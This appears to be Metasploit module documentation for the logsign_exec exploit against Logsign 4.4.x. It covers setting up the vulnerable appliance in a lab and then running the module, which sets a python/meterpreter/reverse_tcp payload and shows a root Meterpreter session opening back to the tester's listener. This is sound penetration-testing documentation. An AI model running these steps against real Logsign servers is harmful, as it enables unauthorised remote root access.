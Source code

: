 ## Vulnerable Application

Download the vulnerable version of OVA or ISO file from following URL. I strongly suggest you to choose OVA.

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova
http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso

### Creating A Testing Environment

1. Open OVA file with your preferred virtualisation application.
2. Before starting the virtual machine, choose NAT mode for interface.
3. Once the machine started, you must be seeing following information on screen.
```
Ubuntu 12.04.05 LTS - logsign customer tty1
IP: 12.0.0.10
...
Version: Focus
4.4.2 
```
4. Access the management interface by visiting `https://<ip_address>` through your browser.
5. Complete the installation by just submitting the fake data. 

**Please follow below instructions if you are seeing different IP address on the screen that doesn't belong to your NAT network range.**

Right after step 3, I've started to see totally different IP address on the screen which was something like 10.0.0.X. Since there is no such a network range in my configuration, it's impossible access to the machine through network. Here is the steps that shows how you can fix this issue. Follow these instructions and then go back to the step 5.

1. Reboot the machine
2. Start pressing ```shift``` button at the very beginning and keep pressing until you see GRUB menu.
3. Choose second line and press enter. We are going to about boot machine with recovery mode.
4. You must be seeing terminal right now. Execute following commands.
```
mount -rw -o remount /
```
5. Execute following command specify a new password for root user.
 ```
 passwd root
 ```
6. As a final step, reboot the machine.
 ```
reboot
 ```
7. Login with your root user.
8. Open ```/etc/network/interfaces``` file and perform necessary changes. Here is my own configuration. 
```
address 12.0.0.10
netmask 255.255.255.0
<removed line starting with 'network'>
<removed line starting with 'broadcast'>
gateway 12.0.0.2
dns-nameservers 8.8.8.8
```
9. Reboot the machine for a last time.

## Verification Steps

  1. Install the software as documented above
  2. Start `msfconsole`
  3. `use exploit/linux/http/logsign_exec`
  4. `set rhost 12.0.0.10`
  6. `python/meterpreter/reverse_tcp` is configured as a default payload. Change it if you need. Most of the case, you're okay go with default payload type.
  7. `set LHOST 12.0.0.1`
  8. `check` and validate that you are seeing following output.

```
[+] 12.0.0.10:80 The target is vulnerable.
```

  9. Here you go. Type `exploit` and hit the enter.

```
[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.10
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.10:46057) at 2017-02-28 14:11:20 +0100

meterpreter > getuid
Server username: root
meterpreter >
```
